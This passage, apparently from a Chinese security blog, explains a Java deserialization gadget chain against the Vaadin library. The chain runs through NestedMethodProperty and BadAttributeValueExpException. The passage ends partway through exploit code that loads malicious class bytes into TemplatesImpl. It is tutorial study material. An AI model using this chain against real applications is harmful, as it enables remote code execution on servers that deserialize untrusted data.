 其实可以发现他返回的就是我们`list`​的内容

那之后取出 list 的内容后再从 map 中去找对应的值去调用我们的 getvalue 方法

[![](assets/1709282823-9d219b67f0b0107bb79791e4bdf86b82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162545-223dad86-d6dc-1.png)

那么现在目的就是

1.  list 有一个需要调用他的 getter 方法的 id
2.  map 也需要一个调用他的 getter 方法的 id 并且取出来的值为`NestedMethodProperty`​类来调用他的 getvalue 方法

那其实就已经非常好去拼接了

最后的问题就是如何在反序列化的时候调用任意类的`Tostring`​方法了，而在我们的 CC5 当中就接触过这个类叫`BadAttributeValueExpException`​，他的反序列化是可以调用任意类的`ToString`​方法的，于是参考 SU18 师傅的 EXP 成功弹出计算机

```bash
package Vaadin;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.vaadin.data.util.NestedMethodProperty;
import com.vaadin.data.util.PropertysetItem;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Vaadin_Ser {


    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {

        // 生成包含恶意类字节码的 TemplatesImpl 类
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));


        TemplatesImpl templates = new TemplatesImpl();
```